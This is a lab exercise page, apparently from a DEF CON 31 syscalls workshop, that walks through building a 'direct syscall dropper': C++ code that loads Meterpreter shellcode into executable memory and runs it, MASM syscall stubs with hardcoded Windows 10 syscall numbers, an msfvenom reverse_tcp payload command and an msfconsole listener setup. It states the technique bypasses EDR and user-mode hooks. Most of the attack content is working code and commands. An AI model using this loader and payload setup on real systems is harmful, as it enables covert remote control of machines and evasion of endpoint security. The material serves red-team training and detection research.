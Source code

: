 ## LAB Exercise 4: Direct Syscall Dropper
Related to the Win32 dropper, in this exercise we will make the second modification, create the direct syscall dropper and implement the required syscalls or syscall stubs from each of the four native functions directly into the assembly (dropper). We will call this the direct syscall dropper.
![Prinicipal_direct_syscalls](https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/07e496d1-e05b-4446-82e4-23442414bd7d)

## Exercise 4 Tasks: 
1. Download the direct syscall dropper poc from the code section of this chapter.
2. Most of the code is already implemented in the poc. However, you have to complete the direct syscall dropper by performing the following tasks:
     - Create a new syscalls.h header file and use for syscalls.h the supplied code that follows in this playbook.
     - Import the syscalls.asm file as a resource and complete the assembly code by adding the missing assembler code for the remaining three native APIs following the scheme of the already implemented code for NtAllocateVirtualMemory.   
     - Enable Microsoft Macro Assembler (MASM) in the direct syscall poc in Visual Studio.
3. Create a staged x64 meterpreter shellcode with msfvenom, copy it to the poc and compile the poc. 
4. Create and run a staged x64 meterpreter listener using msfconsole.
5. Run your compiled .exe and check that a stable command and control channel opens. 
6. Use the Visual Studio **dumpbin** tool to analyse the syscall dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
7. Use **x64dbg** to debug or analyse the dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected?


## Visual Studio
You can download the poc from the code section of this chapter. The code works as follows, shellcode declaration is the same as before in both droppers.
<details>
    
```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
    
</details>


The main code of the direct syscall dropper looks like the following and is already implemented in the poc. Again, we use the same native APIs to allocate memory, write memory, create a new thread and wait for exit.
<details>
<summary>Code</summary>
    
```
#include <iostream>
#include <Windows.h>
#include "syscalls.h"

int main() {
    // Insert Meterpreter shellcode
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);


    // Return 0 as the main function exit code
    return 0;
}
```
    
</details>

    
### Header File
Unlike the native dropper, we **no longer ask ntdll.dll** for the function definition of the native APIs we use. But we still want to use the native functions, so we need to define or **directly implement** the structure for all four native functions in a header file. In this case, the header file should be called **syscalls.h**. The syscalls.h file does not currently exist in the syscall poc folder, your task is to add a new header file named syscalls.h and implement the required code. The code for the syscalls.h file can be found in the code section below. You will also need to include the header ``syscalls.h`` in the main code. 
     
Additional information if you want to check the function definition manually should be available in the Microsoft documentation, e.g. for [NtAllocateVirtualMemory](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory). 

<details>
<summary>Code</summary>

```
#ifndef _SYSCALLS_H  // If _SYSCALLS_H is not defined then define it and the contents below. This is to prevent double inclusion.
#define _SYSCALLS_H  // Define _SYSCALLS_H

#include <windows.h>  // Include the Windows API header

#ifdef __cplusplus   // If this header file is included in a C++ file, then this section will be true
extern "C" {         // This is to ensure that the names of the functions are not mangled by the C++ compiler and are in C linkage format
#endif

    // The type NTSTATUS is typically defined in the Windows headers as a long.
    typedef long NTSTATUS;  // Define NTSTATUS as a long
    typedef NTSTATUS* PNTSTATUS;  // Define a pointer to NTSTATUS

    // Declare the function prototype for NtAllocateVirtualMemory
    extern NTSTATUS NtAllocateVirtualMemory(
        HANDLE ProcessHandle,    // Handle to the process in which to allocate the memory
        PVOID* BaseAddress,      // Pointer to the base address
        ULONG_PTR ZeroBits,      // Number of high-order address bits that must be zero in the base address of the section view
        PSIZE_T RegionSize,      // Pointer to the size of the region
        ULONG AllocationType,    // Type of allocation
        ULONG Protect            // Memory protection for the region of pages
    );

    // Declare the function prototype for NtWriteVirtualMemory
    extern NTSTATUS NtWriteVirtualMemory(
        HANDLE ProcessHandle,     // Handle to the process in which to write the memory
        PVOID BaseAddress,        // Pointer to the base address
        PVOID Buffer,             // Buffer containing data to be written
        SIZE_T NumberOfBytesToWrite, // Number of bytes to be written
        PULONG NumberOfBytesWritten // Pointer to the variable that receives the number of bytes written
    );

    // Declare the function prototype for NtCreateThreadEx
    extern NTSTATUS NtCreateThreadEx(
        PHANDLE ThreadHandle,        // Pointer to a variable that receives a handle to the new thread
        ACCESS_MASK DesiredAccess,   // Desired access to the thread
        PVOID ObjectAttributes,      // Pointer to an OBJECT_ATTRIBUTES structure that specifies the object's attributes
        HANDLE ProcessHandle,        // Handle to the process in which the thread is to be created
        PVOID lpStartAddress,        // Pointer to the application-defined function of type LPTHREAD_START_ROUTINE to be executed by the thread
        PVOID lpParameter,           // Pointer to a variable to be passed to the thread
        ULONG Flags,                 // Flags that control the creation of the thread
        SIZE_T StackZeroBits,        // A pointer to a variable that specifies the number of high-order address bits that must be zero in the stack pointer
        SIZE_T SizeOfStackCommit,    // The size of the stack that must be committed at thread creation
        SIZE_T SizeOfStackReserve,   // The size of the stack that must be reserved at thread creation
        PVOID lpBytesBuffer          // Pointer to a variable that receives any output data from the system
    );

    // Declare the function prototype for NtWaitForSingleObject
    extern NTSTATUS NtWaitForSingleObject(
        HANDLE Handle,          // Handle to the object to be waited on
        BOOLEAN Alertable,      // If set to TRUE, the function returns when the system queues an I/O completion routine or APC for the thread
        PLARGE_INTEGER Timeout  // Pointer to a LARGE_INTEGER that specifies the absolute```c
        // or relative time at which the function should return, regardless of the state of the object
    );

#ifdef __cplusplus  // End of the 'extern "C"' block if __cplusplus was defined
}
#endif

#endif // _SYSCALLS_H  // End of the _SYSCALLS_H definition
  
```
    
</details>
    
<details>
<summary>Solution</summary>   
    <p align="center">
<img width="500" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/5fbb39c6-be30-4641-8652-6b98e478e17f"> 
    </p>
    <p align="center">   
    <img width="800" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/d116e34d-8bea-4d4b-a437-a27594218a5b">
    </p>
    <p align="center">
    <img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/4b3e7f58-b6c1-492a-9516-46dcf3af942c">
    </p>
</details>     
    

### Assembly Instructions
Furthermore, we do not want to ask ntdll.dll for the syscall stub or the content or code of the syscall stub (assembly instructions ``mov r10, rcx``, ``mov eax, SSN`` etc.) of the native functions we use, instead we have to implement the necessary assembly code in the assembly itself. As mentioned above, instead of using a tool to create the necessary assembly instructions, for the best learning experience we will **manually implement** the **assembly code** in our direct syscall poc. To do this, you will find a file called ``syscalls.asm`` in the direct syscall dropper poc directory, which contains some of the required assembler code. The code below shows the assembler code for the syscall stub of ``NtAllocateVirtualMemory`` which is already implemented in the syscalls.asm file. 

<details>
<summary>Code</summary>

```
.CODE  ; Start the code section
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                                    ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP     
END  ; End of the module    
```
    
</details>
     
It is your task to **add** the ``syscalls.asm`` file **as a resource** (existing item) to the direct syscall dropper project and **complete** the **assembler code** or add the **syscall stub** for the other three missing native APIs ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``.

If you are unable to complete the assembly code at this time, you can use the assembly code from the solution and paste it into the ``syscalls.asm`` file in the **direct syscall dropper poc**. **Note** that the syscalls IDs are for Windows 10 Enterprise 22H2 and may not work for your target. You may need to replace the syscalls IDs with the correct syscalls IDs for your target Windows version.
    
<details>
    <summary>Solution</summary>

```
.CODE  ; Start the code section
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                                    ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP                     	; End of the procedure.

; Similar procedures for NtWriteVirtualMemory syscalls
NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, 3AH
    syscall
    ret
NtWriteVirtualMemory ENDP

; Similar procedures for NtCreateThreadEx syscalls
NtCreateThreadEx PROC
    mov r10, rcx
    mov eax, 0C2h
    syscall
    ret
NtCreateThreadEx ENDP

; Similar procedures for NtWaitForSingleObject syscalls
NtWaitForSingleObject PROC
    mov r10, rcx
    mov eax, 4
    syscall
    ret
NtWaitForSingleObject ENDP

END  ; End of the module
```
    
</details>

    
    
### Microsoft Macro Assembler (MASM)
We have already implemented all the necessary assembler code in the syscalls.asm file. But in order for the code to be interpreted correctly within the direct syscall poc, we need to do a few things. These steps are not done in the downloadable poc and must be done manually. First, we need to **enable support** for **Microsoft Macro Assembler (MASM)** in the Visual Studio project by enabling the option in Build Dependencies/Build Customisations.
<details>
<summary>Solution</summary> 
<p align="center">
<img width="1278" alt="image" src="https://user-images.githubusercontent.com/50073731/235457590-371f3519-b7cf-483d-9c1c-6bfd6368be42.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235457782-780d2136-30d7-4e87-a022-687ed2557b33.png">
</details>

We also need to set the **item type** of the **syscalls.asm** file to Microsoft Macro Assembler, otherwise we will get an unresolved symbol error in the context of the native APIs used in the direct syscall dropper. We also set Excluded from Build to no and Content to yes. 
<details>
<summary>Solution</summary> 
    <p align="center">
<img width="950" alt="image" src="https://user-images.githubusercontent.com/50073731/235471947-4bcd23fc-5093-4f4d-adc8-eb3ef36f139f.png">    
<img width="1237" alt="image" src="https://user-images.githubusercontent.com/50073731/235458968-e330799e-51ff-46bf-97ab-c7d3be7ea079.png">
<img width="778" alt="image" src="https://user-images.githubusercontent.com/50073731/235459219-4387dc48-56f8-481c-b978-1b786843a836.png">
    </p>
</details>     

    

## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="800" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the direct syscall dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="600" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our direct syscall dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="600" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled direct syscall dropper. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="800" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>
        

    
## Direct Syscall Dropper Analysis: Dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports Path/to/Direct_Syscall_Dropper.exe
```
</details>    

<details>
    <summary>Solution</summary>  
    
**No imports** from the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="1023" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/63f2bb5d-5090-491c-8c68-f177381b2136">
</p>
</details>   
    
    
## Direct Syscall Dropper Analysis: x64dbg 
The first step is to run your direct syscall dropper, check that the .exe is running and that a stable meterpreter C2 channel is open. 
Then we open x64dbg and attach to the running process, note that if you open the direct syscall dropper directly in x64dbg, you need to run the assembly first.
<details>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a8509e63-ddea-4dee-894f-b2266bb3e504">
</p>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/9b995e48-6bab-4af5-8589-d12b3ce7a3f9">
</p>    
</details>
     
    
First we want to check which APIs (Win32 or Native) are being imported and from which module or memory location. Remember that in the direct syscall dropper we no longer use Win32 APIs in the code and have implemented the structure for the native functions directly in the assembly. What results do you expect?
<details>
    <summary>Solution</summary>
     Checking the imported symbols in our direct syscall dropper, we should again see that the Win32 APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are no longer imported by kernel32.dll, or are no longer imported in general. So the result is the same as with dumpbin and seems to be valid.     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/df8bde2d-f471-4176-b74f-a9d9a6ed6828">
</p>    
Also, looking at the imported symbols (symbols register), we see that instead of asking ntdll.dll for the code of the four required native functions ``NtAllocateVirutalMemory``, ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``, these native functions are implemented directly in the .text region of the dropper itself. 
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/e32b1bdd-c171-4810-ab00-db897cb9c2a6">
</p>  
We can also use the "Follow in Disassembler" function to analyse the direct syscall dropper to identify the lines of code where the calls to the native functions are made. 
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/6de307d9-c9b4-4120-bb53-a6619c5033fb">
</p>  
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/b7b95a63-e0d5-4afc-93d1-b3e027360536">
</p>          
</details>

We also want to check in which module the syscall stub or the assembler instructions of the native functions are implemented, or more precisely, from which module or memory location the syscall and return statements are executed. This will be important later when we compare direct and indirect syscalls. 
<details>
    <summary>Solution</summary>
     For example, in the context of the native function ``NtAllocateVirtualMemory``, we use the Follow in Disassembler function and should be able to see that the syscall stub is not retrieved from ntdll.dll, instead the stub is implemented directly into the .text section of the assembly. We can also see that the syscall statement and the return statement are executed from the memory location of the direct syscall dropper assembly.    
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/c5eb2972-6760-4059-9e75-824d20e528fe">
</p> 
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/33471abd-4ccb-4246-98a8-a448d868cda9">
</p> 
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/0ce40a86-3cf8-4587-a740-12781585ea8f">
</p>
</details>


## Summary:
- Made transition from Native APIs to direct syscalls
- Dropper imports no longer Windows APIs from kernel32.dll
- Dropper imports no longer Native APIs from ntdll.dll
- Syscalls or syscall stubs are "implemented" directly into .text section of .exe
- User mode hooks in ntdll.dll and EDR can be bypassed 
